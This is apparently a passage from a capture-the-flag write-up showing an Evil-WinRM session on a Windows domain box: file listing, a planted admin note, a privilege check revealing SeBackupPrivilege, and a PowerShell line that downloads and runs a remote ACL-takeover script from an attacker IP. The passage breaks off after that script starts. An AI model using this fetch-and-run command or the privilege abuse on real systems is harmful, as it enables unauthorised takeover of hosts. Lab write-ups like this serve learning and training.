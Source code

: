 Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_backup\Documents> dir ..\Desktop


    Directory: C:\Users\svc_backup\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        2/28/2020   2:26 PM             32 user.txt



*Evil-WinRM* PS C:\> type notes.txt
Mates,

After the domain compromise and computer forensic last week, auditors advised us to:
- change every passwords -- Done.
- change krbtgt password twice -- Done.
- disable auditor's account (audit2020) -- KO.
- use nominative domain admin accounts instead of this one -- KO.

We will probably have to backup & restore things later.
- Mike.

PS: Because the audit report is sensitive, I have encrypted it on the desktop (root.txt)
*Evil-WinRM* PS C:\> whoami /privs
whoami.exe : ERROR: Invalid argument/option - '/privs'.
    + CategoryInfo          : NotSpecified: (ERROR: Invalid ...ion - '/privs'.:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
Type "WHOAMI /?" for usage.
*Evil-WinRM* PS C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\> 


https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/privilege-escalation-abusing-tokens

*Evil-WinRM* PS C:\> IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.97/Acl-FullControl.ps1')
*Evil-WinRM* PS C:\> Acl-FullControl -user blackfield\svc_backup -path c:\users\administrator
[+] Current permissions:
